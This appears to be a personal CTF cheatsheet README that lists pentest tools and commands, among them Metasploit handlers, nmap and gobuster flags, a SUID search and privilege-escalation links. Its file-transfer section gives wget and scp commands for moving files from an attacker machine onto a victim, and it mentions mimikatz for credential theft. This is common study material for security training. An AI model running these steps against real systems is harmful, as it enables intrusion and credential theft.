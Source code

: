 # my-CTF-s-Cheatsheets-global-reference

1. STEGANOGRAPHY :  

https://0xrick.github.io/lists/stego/

2. HASHCAT METHODS :

https://hashcat.net/hashcat/#features-algos

3.EXPLOIT ENUMERATION : 

 *Exploit-db 
 *CVE-Mitre 
 *Rapid7 
 
 LINUX CLI INTERFACE : 
 
  searchsploit *name-of-the-vulnerability*
  
 4. WORDPRESS VULNERABILITY ENUMERATION : 
 
 https://wpvulndb.com/
 
 LINUX CLI -----> wpscan -h
 
 5. METASPLOIT : 
 
 *SETTING MSFLISTENER ----> use multi/handler 
 setting payload ----> set PAYLOAD *name of the payload*
 
 FINDING LOCAL EXPLOITS IN POST EXPLOITATION PROCESS : 
 COMMAND --->use post/multi/recon/local_exploit_suggester
 
 CONVERTING A SHELL TO A METERPRETER : 
 
 CMD ----> search shell_to_meterpreter in msfconsole menu

 6. NMAP : 
 
 TABLE FOR BASIC ENUMERATION COMMANDS;
 
 nmap-flag	                                         Description
-sV	                                                 Attempts to determine the version of the services running
-p <x> or -p-	                                       Port scan for port <x> or scan all ports
-Pn                                                  Disable host discovery and just scan for open ports
-A	                                                 Enables OS and version detection, executes in-build scripts for further enumeration 
-sC	                                                 Scan with the default nmap scripts
-v	                                                 Verbose mode
-sU	                                                 UDP port scan
-sS	                                                 TCP SYN port scan
  
CHEATSHEETS FOR NMAP :

https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/
https://www.tutorialspoint.com/nmap-cheat-sheet

7.WEB APP DIRECTORY BRUTEFORCING(HIDDEN DIRECTORIES) : 

GoBuster-flag	                                       Description
-e	                                                 Print the full URLs in your console
-u	                                                 The target URL to bruteforce
-w	                                                 Path to your wordlist to crack with it
-U and -P	                                           Single known Username and Password for Basic Auth
-p <x>	                                             Proxy to use for requests
-x                                                   Extensions to search with the directory
  
 8. SEARCHING FOR SUID FILES FROM THE ROOT DIRECTORY : 
 
 CMD -----> : find / -user root -perm -4000 -exec ls -ldb {} \;
 
 9.PRIVELEGE ESCALATION THROUGH SUID :
 
 https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
 
 10.PRIVELEGE ESCALATION REFERENCE :
 
 https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/
 
 11. SMB ENUMERATION :
 
 CMD -----> smbmap -H TARGET_IP (FOR SCANNING USERNAMES OF THE GIVEN DOMAIN OR TARGET IP)
 
 12.FILE TRANSFER FROM OUR ATTACKER'S MACHINE TO THE REMOTE OR VICTIM'S MACHINE :
 
 *wget
 *scp
 *lcd
 SCP :
 
 * scp filename hostuser@target_ip:/path_to_upload(/tmp)
 
 * wget http://local_ip/file_to_upload
 
 13.WINDOWS PRIVELEGE ESCALATION :
 
 mimikatz : open-source for user authentication systems 
 
 https://www.varonis.com/blog/what-is-mimikatz/
 
 service : lsaas service
 
 kiwi : most updated version of mimikatz
 
 13.OHSINT TOOLS :
 
 exiftool : extract metadata of an image with crucial copyrights name
 
 sherlock : https://github.com/sherlock-project/sherlock
 
 wigle : https://www.wigle.net/   ----> for finding the location of the WAP and ssid using the bssid more specifically.
 
  
